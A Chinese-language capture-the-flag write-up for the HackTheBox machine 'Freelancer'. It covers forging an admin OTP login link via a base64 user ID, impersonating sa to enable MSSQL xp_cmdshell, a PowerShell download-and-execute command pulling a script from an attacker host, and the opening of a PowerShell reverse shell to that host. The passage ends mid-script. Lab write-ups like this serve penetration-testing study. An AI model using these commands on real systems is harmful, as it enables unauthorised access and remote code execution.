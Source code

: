 ```bash
[*] NetInfo
[*]10.10.11.5
   [->]DC
   [->]10.10.11.5
[*] WebTitle http://10.10.11.5:5985    code:404 len:315    title:Not Found
[*] WebTitle http://10.10.11.5:47001   code:404 len:315    title:Not Found
[*] WebTitle http://freelancer.htb/    code:200 len:57293  title:Freelancer - Job Board & Hiring platform
已完成 26/26
[*] 扫描结束,耗时: 1m15.097074037s
```

老样子加进 hosts，访问，是个招聘网站，用 dirsearch 一顿扫，结果里面一堆 `/admin` 路由的。
注册了一个 employer 的帐号，密码还不能太简单，登录说没激活，点击忘记密码，重置一次，就能登录了。
有个二维码登录的功能，说用手机扫就能直接登录，随便找个[在线识别网站](https://zxing.org/w/decode.jspx)识别出 `http://freelancer.htb/accounts/login/otp/MTAwMTA=/700a374a3c075b4da499d76a39953af6/`

`MTAwMTA=` base64 解出是 `10010`，猜测是用户的 ID，后面应该是关于时间的凭据。在 Blog 里随便发表一条评论，然后自己的链接就是 `http://freelancer.htb/accounts/profile/visit/10010/` ，那么就八九不离十了，从 1 开始试，发现 `http://freelancer.htb/accounts/profile/visit/2/` 可以访问到，而且 username 是 admin，那么尝试伪造 admin 登录，2 对应 base64 即为 `Mg==`，拼接链接 `http://freelancer.htb/accounts/login/otp/Mg==/700a374a3c075b4da499d76a39953af6/` 成功登录 admin。

登上之后页面和之前差不多，直接进 `/admin` 路由，到了管理页面。一眼看到 SQL Terminal，GPT 说可以用 xp_cmdshell 执行命令，发现没权限

执行如下命令：

```sql
SELECT name AS DatabaseName, suser_sname(owner_sid) AS Owner
FROM sys.databases;
```

可以看到 Owner 全部是 sa，然后模拟 sa 登录，执行如下命令启用 xp_cmdshell：

```sql
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

再

```sql
EXEC xp_cmdshell 'dir'
```

发现命令执行成功。
想弹个 shell，搞着搞着发现 bash 不了，才想起来这是 Windows

```sql
EXECUTE xp_cmdshell 'powershell -c iex(iwr -usebasicparsing http://10.10.16.18/1.ps1)'
```

发现弹了一下就断了，应该是被杀软掐了。
试了很多个都不行，没办法了，用大哥找到的：

```shell
do {
    # Delay before establishing network connection, and between retries
    Start-Sleep -Seconds 1

    # Connect to C2
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.10.16.18',55555)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

```